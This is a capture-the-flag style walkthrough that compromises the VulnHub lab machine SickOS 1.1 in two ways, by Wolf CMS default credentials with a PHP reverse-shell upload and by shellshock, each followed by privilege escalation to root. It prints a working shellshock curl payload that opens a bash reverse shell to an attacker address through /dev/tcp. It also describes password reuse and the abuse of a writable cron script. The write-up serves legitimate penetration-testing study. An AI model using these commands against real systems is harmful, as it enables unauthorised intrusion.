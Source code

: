 ```yaml
---
title:  "SickOS 1.1 Walkthrough"
header: "SickOS 1.1 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


The [SickOS series](https://www.vulnhub.com/?q=sickos&sort=date-des&type=vm) from [VulnHub](https://www.vulnhub.com) give small taste of what you can expect to find while purusing your OSCP. Below is a walkthrough of how to compromise SickOS 1.1 and obtain the flag. I've seperated it into two options as there are many different ways to compromise this particular machine. Post or reach out if you know of some other ways!

# Host Enumeration  
***

Of course we start off with an nmap scan to see what we're working with
`nmap –sV 192.168.32.133`  
![Nmap Scan](/assets/images/sickosnmap.JPG)  

# Service Enumeration  
***
![Services](/assets/images/sickosservices.JPG)  
 
So at this point I took notes of the ports, likely OS version, and the services running. Since there’s a proxy configured and a closed 8080 port, I went ahead configured my browser through port 3128 with the assumption there’s a website possibly hosted on this server.  

>**Helpful Note:**
You can do this by opening Iceweasel > Properties > Preferences > Advanced > Network > Settings. Select Manual Proxy Configuration and place the IP address and appropriate port and select “OK” once done.  
![Proxy Config](/assets/images/sickosproxyconfig.jpg)  

 Next I navigated to port 8080 with a connection failure and simply tried the standard HTTP port 80 and was presented with a page containing “BLEHHH!!!” on it.  
![Blehhh](/assets/images/sickosblehh.JPG)  

Inspecting the source didn’t reveal anything useful but then I tried robots.txt which contained an interesting folder “/wolfcms”.  
![SickOS Robots](/assets/images/sickosrobots.jpg)  

While manually researching wolfcms, I kicked off a general nikto scan and a dirb scan of the wolfcms directory.

Nikto Usage: `nikto -h 192.168.32.133 -useproxy http://192.168.32.133:3128`  
Dirb Usage: `dirb http://192.168.32.133/wolfcms -p 192.168.32.133:3128`  

I noted multiple publically released vulnerabilities for Wolf CMS, one in particular was an [Arbitrary File Upload /Execution](https://www.exploit-db.com/exploits/38000/) that seemed to foot the bill if I were able to get logged in. A quick google search revealed the standard login page would be `/admin/` or `/?admin/` depending on the mod_rewrite status. In this case, the correct path was `/wolfcms/?admin/`. Navigating to this URL presented a Wolf CMS login screen.  

![SickOS Wolf CMS Login](/assets/images/sickoswolflogin.jpg)  

At this time I decided to review what my scans came back with as I had a pretty good feel for where this was going from a Wolf CMS standpoint.

### Dirb  
Dirb revealed several directories but most notably the `/public/` directory which was also mentioned in the vulnerability page mentioned above.  

![SickOS Dirb](/assets/images/sickosdirb.jpg)  

### Nikto  

Nikto had even more interesting information such as it possibly being vulnerable to shellshock.  
![SickOS Nikto](/assets/images/sickosnikto.jpg)  

This is where the options occur, Option 1 goes after the CMS and Option 2 goes after shellshock. Shellshock is certainly the popular way in but I recommend doing both just for the experience. Just as an FYI, the privilege escalation techniques are different for each but can be done in either scenario.

# Compromise Option 1 - CMS Way  
***
### Breach  
I searched for default username/password combinations but it appears to be generated at install so there wasn’t much luck on that front. So I navigated back to the login screen `/wolfcms/?admin/` to try some basic username/password combos and one of the first tries was a success with admin/admin.  

![SickOS Wolf Main Page](/assets/images/sickoswolfmain.jpg)  

Upon entry, I snooped around a few places just checking out versioning and to see if anything caught my eye. Naturally the files section stuck out like a sore thumb, particularly since it shows read/write permissions and the ability to upload files. Essentially, this is what the exploit noted above was describing; find a way to upload a shell and then navigate to it. As with many others, [pentestmonkey.net’s](http://pentestmonkey.net/) reverse PHP shell comes to the rescue again. I plugged in my attacking machines IP and uploaded it.  

![SickOS Wolf Upload](/assets/images/sickoswolfupload.jpg)  

Since it appears that it’s in the public directory (that I discovered earlier with Dirb), all that is needed is to set up a listener and navigate to the uploaded malicious php page

> **Helpful Note:**
Listener - `nc –nlvp 4444`  

I was then presented with a shell to my attacking machine as the www-data user  

![SickOS Shell 1](/assets/images/sickosshell1.jpg)  

### Privilege Escalation  
 
I noticed an interesting cron entry that ran `/var/www/connect.py` in which the www-data user had write access to. So I replaced the contents of connect.py with a python shell obtained from [Trustedsec](https://www.trustedsec.com/) and set up a listener. After a few seconds I was presented with a shell as the root user which was able to obtain the flag.  

![SickOS root 1](/assets/images/sickosroot1.jpg)  

# Compromise Option 2 - Shellshock Way  
***

### Breach  
From the output of the Nikto scan, it appears that this machine is vulnerable to shellshock. I don’t want to belabor shellshock as it’s very widely publicized and documented well. However, you should be familiar with it as it will likely come up in future endeavors ([link 1](https://fedoramagazine.org/shellshock-how-does-it-actually-work/), [link 2](https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability), [link 3](https://blog.cloudflare.com/inside-shellshock/))

There are many ways to do this, but in my haste I chose to use curl (this would be a great exercise to go through with Burp as well). I set up a listener, and used the below curl command to send to the attacking machine.
`curl -x http://<TARGET IP>:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/<ATTACKING IP>/1234 0>&1" http://<TARGET IP>/cgi-bin/status`  

Once the command was sent, I was able to receive a reverse shell as the www-data user.  

![SickOS Shell 2](/assets/images/sickosshell2.jpg)  

### Privilege Escalation  

Once on the machine, I began the information collection phase and came upon an interesting file `/var/www/wolfcms/config.php`. You should always check out the config files, people hardcode all kinds of juicy information in them.  

![SickOS Database Config](/assets/images/sickosdbconfig.jpg)  

As it shows above, the SQL root user has the password of “john@123”. Naturally once you’ve obtained any type of credential you should see if the user can fall victim to password reuse. A quick `cat /etc/passwd` command shows a non-standard user “sickos”. I attempted to SSH as that user and with the credential found in the config file and was able to successfully log in.  

Upon logging, I checked to see if the user had sudo privileges by using `sudo –l` and as you will see below, the user does have the necessary privileges.  

![SickOS Sudo Options](/assets/images/sickossudoop.jpg)  

All that is left to do is `sudo su`  

![SickOS Sudo](/assets/images/sickossudo.jpg)  

Once as the root user you can move to the /root directory and display the flag  

![SickOS root 2](/assets/images/sickosroot2.jpg)  

# Conclusion  
***

I believe there are some additional easter eggs to find here but had to move on to other things. I thought it was a good representation of some of the machines that you'll experience in the OSCP labs. I would consider this machine on the easy side but it teaches you good lessons and encourages you to follow your hunches and solidify your enumeration process.
